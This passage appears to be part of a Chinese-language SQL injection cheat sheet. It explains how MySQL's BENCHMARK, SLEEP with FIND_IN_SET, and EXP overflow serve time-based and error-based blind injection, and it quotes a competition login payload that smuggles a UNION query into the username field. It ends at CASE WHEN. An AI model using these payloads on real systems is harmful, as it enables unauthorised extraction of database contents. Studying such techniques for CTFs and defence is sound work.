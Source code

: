 ## BENCHMARK()

与SLEEP类似，用户Mysql处理，执行多少次表达式，通过时间长短判断语句是否执行，不过会占用CPU

```mysql
mysql> SELECT BENCHMARK(10000000,1/2);
+-------------------------+
| BENCHMARK(10000000,1/2) |
+-------------------------+
|                       0 |
+-------------------------+
1 row in set (0.88 sec)
```

## FIND_IN_SET()

在'0,1,2,3,4,5,6,7,8,9,.,r'中寻找user()的第一位，返回的时间是payload的第几位

```mysql
mysql> SELECT SLEEP(FIND_IN_SET(MID((select user()),1,1),'0,1,2,3,4,5,6,7,8,9,.,r'));
+------------------------------------------------------------------------+
| SLEEP(FIND_IN_SET(MID((select user()),1,1),'0,1,2,3,4,5,6,7,8,9,.,r')) |
+------------------------------------------------------------------------+
|                                                                      0 |
+------------------------------------------------------------------------+
1 row in set (12.00 sec)
```

## EXP()

注意EXP(710)，EXP(709)，可以通过临界值710进行报错盲注

```mysql
mysql> select EXP(709);
+-----------------------+
| EXP(709)              |
+-----------------------+
| 8.218407461554972e307 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select EXP(710);
ERROR 1690 (22003): DOUBLE value is out of range in 'EXP(710)'
```

比如师傅在某比赛中的EXP：

```php+HTML
username=1' union select EXP(710-ascii(mid(username,1,1))--5) from user-- -&password=2
```

CASE WHEN：

用法类似IF
